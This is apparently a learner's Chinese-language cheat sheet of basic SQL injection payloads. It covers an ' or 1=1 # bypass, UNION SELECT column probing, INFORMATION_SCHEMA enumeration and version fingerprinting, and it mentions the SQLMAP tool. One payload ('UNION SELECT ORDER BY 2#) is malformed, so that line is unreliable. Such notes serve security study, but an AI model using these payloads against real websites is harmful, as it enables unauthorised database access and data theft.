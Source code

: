 # cheetsheet

## SQL Injection

1. 最簡單語法 
' or 1=1 # (# 代表後方皆省略)

2. UNION 可以將兩個 SELECT 結合在一起查詢
'UNION SELECT 1,2,3,4# (用這個可以慢慢找出欄位數)
'UNION SELECT ORDER BY 2# (與上方同理)

3. 系統資訊結構描述
一般 SQL 資料庫中都會有一個表格是 "系統資訊結構描述" ，表格名為 Information Schema，亦可透過 UNION 方式檢視 Table Name、Column Name
'UNION SELECT  TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS#

4. 查出資料庫版本、資料庫名稱
透過版本直接上網查是不是有已知漏洞可以打
'UNION SELECT @@version,database()#

5. SQL 檢測工具 - SQLMAP (未用過)
此工具用來檢視是否有 SQL Injection，程式將 SQL Injection 攻擊語法集結而成，透過此可對網站進行滲透


